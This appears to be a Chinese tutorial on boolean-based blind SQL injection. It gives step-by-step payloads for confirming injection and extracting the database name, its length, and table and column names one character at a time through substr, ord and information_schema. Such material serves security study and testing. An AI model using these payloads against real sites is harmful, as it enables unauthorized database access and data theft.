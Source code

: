 https://xz.aliyun.com/t/9849#toc-5

### 布尔盲注

1、在参数后添加引号尝试报错，并用`and 1=1#`和`and 1=2#`测试报错

```sql
?id=1' and 1=1# 页面返回正常
?id=1' and 1=2# 页面返回不正常
```

2、判断数据库名的长度

```sql
1'and length(database())>=1--+		页面返回正常
1'and length(database())>=13--+		页面返回正常
1'and length(database())>=14--+		页面返回错误

由此判断得到数据库名的长度是13个字符
```

3、猜解数据库名

使用逐字符判断的方式获取数据库名；

数据库名的范围一般在a~z、0~9之内，可能还会有特殊字符 "_"、"-" 等，这里的字母不区分大小写。

```sql
' and substr(database(),1,1)='a'--+
' and substr(database(),2,1)='a'--+

substr 的用法和 limit 有区别，limit从 0 开始排序，这里从 1 开始排序。
```

使用ASCII码查询

```sql
' and ord(substr(database(),1,1))=97--+
```

ASCII码表中可显示字符的范围是：0-127

4、判断数据库表名

```sql
' and substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个字段的名
--修改limit的0,1前边的0~20，逐个猜解每个字段
```

5、判断数据库字段名

```sql
' and substr((select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个字段的名
--修改limit的0,1前边的0~20，逐个猜解每个字段
```
